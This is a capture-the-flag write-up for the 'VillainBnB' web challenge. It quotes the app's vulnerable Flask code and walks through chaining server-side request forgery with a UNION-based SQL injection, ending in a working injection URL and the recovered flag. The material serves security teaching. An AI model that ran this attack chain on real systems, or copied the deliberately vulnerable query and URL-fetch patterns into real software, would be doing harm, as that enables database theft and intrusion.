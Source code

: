 # Web: VillainBnB (419)

This is a website where Villains can get short-term rentals for their nerfarious deeds. There's a flag here somewhere though, can you get it from the database?

[https://uscybercombine-s4-villainbnb.chals.io/](https://uscybercombine-s4-villainbnb.chals.io/)

For this web challenge, we are given a zip file of the code. First, we need to extract it, and then everything we need is in app.py.

Here, we can see first that there is a wrapper for URLs that can only be accessed locally.

```py
def localhost_only(func):
    @wraps(func)
    def wrapper(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return jsonify({'error': 'Access denied'}), 403
        return func(*args, **kwargs)
    return wrapper
```

Also, the flag is added to a database just for the flag:

```py
    db.session.add(Flag(flag=FLAG))
```


We also see that SQLAlchemy is used, and the `/api/users` path has the following code:

```py
@api_bp.route('/users', methods=['GET'])
@localhost_only
def get_users():
    username = request.args.get('username')
    if username:
        query = f"SELECT * FROM user WHERE username ='{username}'"
        users = db.session.execute(text(query)).fetchall()
        users_data = [{'id': u.id, 'username': u.username} for u in users]
        return jsonify(users_data)
    else:
        users = User.query.all()
        users_data = [{'id': u.id, 'username': u.username} for u in users]
        return jsonify(users_data)
```

`db.session.execute` is certainly vulnerable to SQL injection, but this is a localhost-only path! 

So, we will need a way to bypass that.

In the `/create` path, which we can access when logged in, we see this:

```py
@app.route('/create', methods=['GET', 'POST'])
@login_required
def create_listing():
    if request.method == 'POST':
        name = request.form['name']
        description = request.form['description']
        image_url = request.form['image_url']

        valid_img = validate_image_url(image_url)

        if valid_img != True:
            flash(f'Invalid image URL. Please provide a valid image URL.\n\nResponse was:\n\n{valid_img}', 'danger')
            return redirect(url_for('create_listing'))

        new_listing = Listing(name=name, description=description, image_url=image_url, author=current_user)
        db.session.add(new_listing)
        db.session.commit()
        flash('Listing created successfully!', 'success')
        return redirect(url_for('index'))

    return render_template('create_listing.html')
```

This seems interesting... We can input a URL and it will return the response if not a valid image...

Now how does it validate the URL?

We also have this function:

```py
def validate_image_url(url):
    try:
        response = requests.get(url, timeout=5)
        response.raise_for_status()
        content_type = response.headers.get('Content-Type')
        if content_type and 'image' in content_type:
            return True
        else:
            return response.text
    except requests.exceptions.RequestException:
        return False
```

Since it gets the URL, what if we chain attacks? What if we request the localhost URL for the users API?


First, we need to register and log in...

If we create a listing with the URL of `http://127.0.0.1:5000/api/users?username=astitz-writeup`, we see this worked!

![Image 1](Screenshots/1.png)
![Image 2](Screenshots/2.png)

And since we know that the user table has 3 columns from our app.py file, which are id, username, and password, we can start to craft a payload to get the flag.

However, an interesting thing with this is that it uses named columns, so rather than just doing something like `' union select 1, flag, 1 from flag union select * where username = '`, we need to name the columns using "as".


And using the payload `http://127.0.0.1:5000/api/users?username=astitz-writeup' union select id, flag as username, flag as password from flag union select * from user where username = '`, we can get the flag!

![Image 3](Screenshots/3.png)

And our flag is `SIVUSCG{whoopsies_SSRF_here!}`! And we just chained a SSRF (Server-Side Request Forgery) with SQL injection!